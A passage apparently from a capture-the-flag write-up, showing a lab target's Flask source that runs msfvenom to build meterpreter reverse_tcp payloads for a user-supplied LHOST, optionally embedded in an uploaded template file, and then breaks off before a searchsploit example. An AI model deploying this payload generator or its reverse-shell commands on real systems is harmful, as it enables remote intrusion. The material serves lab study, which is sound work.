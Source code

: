 ```python
    else:
        with open('/home/kid/logs/hackers', 'a') as f:
            f.write(f'[{datetime.datetime.now()}] {srcip}\n')
        return render_template('index.html', sserror="stop hacking me - well hack you back")


def venom(request):
    errors = []
    file = None
    if not 'lhost' in request.form:
        errors.append('lhost missing')
    else:
        lhost = request.form['lhost']
        if not regex_ip.match(lhost):
            errors.append('invalid lhost ip')
    if not 'os' in request.form:
        errors.append('os missing')
    else:
        tar_os = request.form['os']
        if tar_os not in ['windows', 'linux', 'android']:
            errors.append(f'invalid os: {tar_os}')
    if 'template' in request.files and request.files['template'].filename != '':
        file = request.files['template']
        if not ('.' in file.filename and file.filename.split('.')[-1] == OS_2_EXT[tar_os]):
            errors.append(f'{tar_os} requires a {OS_2_EXT[tar_os]} ext template file')
        else:
            template_name = secure_filename(file.filename)
            template_ext = file.filename.split('.')[-1]
            template_file = tempfile.NamedTemporaryFile('wb', suffix='.'+template_ext)
            file.save(template_file.name)
    else:
        template_name = "None"

    if errors:
        return render_template('index.html', payloaderror='<br/>\n'.join(errors))

    payload = f'{tar_os}/meterpreter/reverse_tcp'
    outfilename = md5(request.remote_addr.encode()).hexdigest()[:12] + '.' + OS_2_EXT[tar_os]
    outfilepath = os.path.join(app.root_path, 'static', 'payloads', outfilename)

    try:
        if file:
            print(f'msfvenom -x {template_file.name} -p {payload} LHOST={lhost} LPORT=4444')
            result = subprocess.check_output(['msfvenom', '-x', template_file.name, '-p',
                payload, f'LHOST={lhost}', 'LPORT=4444',
                '-o', outfilepath])
            template_file.close()
        else:
            result = subprocess.check_output(['msfvenom', '-p', payload,
                f'LHOST={lhost}', 'LPORT=4444', '-o', outfilepath])
    except subprocess.CalledProcessError:
        return render_template('index.html', payloaderror="Something went wrong")

    
    return render_template('index.html', payload=payload, lhost=lhost,
            lport=4444, template=template_name, fn=outfilename)


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
Most interestingly is what happens if the program detects invalid input to searchsploit:
```python
```